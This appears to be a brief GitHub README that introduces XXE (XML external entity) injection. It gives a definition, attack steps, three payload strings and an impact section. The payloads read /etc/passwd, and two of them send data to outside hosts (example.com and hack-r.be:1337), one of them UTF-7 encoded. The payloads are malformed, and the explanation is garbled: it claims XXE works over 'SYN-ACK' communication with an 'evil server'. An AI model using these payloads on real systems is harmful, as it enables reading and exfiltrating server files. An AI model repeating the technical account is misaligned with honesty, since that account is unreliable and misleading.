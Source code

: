 # XXE injection 
# What is XXE injection? 
XXE injection also known as XML external entity injection. IT is a type of back end web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access. IT works on SYN-ACK type of communication between evil sever and genuine server. It is more applicable in IoT and also known  as one of IoT attacks. XXE injection attack can be escalated by compormising server by using SSRF (server side request forgery).  
![XXE_600x315](https://user-images.githubusercontent.com/115407638/204035060-03d35c3f-eff2-48fb-8fd3-e61cc5bf77c0.png) 

# Steps to perform XXE injection. 
1) Client sends requests to the server XXE data. 
2) Server sends SYN-ACK sommand to evil server. 
3) XXE payload is injected and sent to the genuine server that asks for c:/windows/win.ini 
4) XXE vulnerablity of attacker is exploited. 

# Payloads Used 
1) ?xml version="1.0"? "!DOCTYPE data [<!ELEMENT data (#ANY)><!ENTITY file SYSTEM "file:///etc/passwd"] 
2) ?xml version="1.0"?!DOCTYPE foo[ELEMENT foo (#ANY)!ENTITY % xxe SYSTEM "file:///etc/passwd"!ENTITY blind SYSTEM "https://www.example.com/?%xxe;"foo&blind;] 
3) ?xml version="1.0" encoding="UTF-7"? +ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA++ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4













# Impact 
XXE injection vulnerablity basically works on data in use and transit data. It can cause the loss of sensitive info of an organisation or an individual. 

